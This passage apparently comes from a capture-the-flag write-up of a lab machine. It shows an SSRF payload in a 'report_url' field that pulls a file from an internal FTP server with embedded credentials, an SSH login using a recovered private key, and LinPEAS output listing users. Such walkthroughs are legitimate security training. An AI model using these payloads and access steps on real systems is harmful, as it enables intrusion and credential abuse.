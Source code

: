 There is also a passphrase "**`Y27SH19HDIWD`**" on the FTP server, which we can retrieve using the following payload:

**`report_url=++++ftp://ftp_admin:u3jai8y71s2@ftp.local/welcome_note.txt`**

Now I will execute **`ssh-add`** to extract the username from the **`id_rsa`** file.

```xml
┌──(kali㉿kali)-[~/s5]
└─$ ssh-add id_rsa
Enter passphrase for id_rsa: 
Identity added: id_rsa (dev_acc@local)
```

It indicates that the user is **`dev_acc`**. Now, I will SSH to the user using the command: **`ssh dev_acc@10.129.54.146 -i id_rsa`**.

![Untitled](Untitled%2010.png)

We successfully obtained the user flag! 🚩

## Root Flag

Now, I'll run LinPEAS by fetching it from my host system using a HTTP server created with Python.

```xml
╔══════════╣ Users with console
adam:x:1002:1002:,,,:/home/adam:/bin/bash                                                                                                                                                                         
dev_acc:x:1001:1001:,,,:/home/dev_acc:/bin/bash
lopez:x:1003:1003:,,,:/home/lopez:/bin/bash
root:x:0:0:root:/root:/bin/bash

```

After LinPEAS finished running, I made note of the users in case we might need them later.

Additionally, I found a users.db file in the blueprints directory. I will view its contents using **`cat`** to see if we can gather any information.
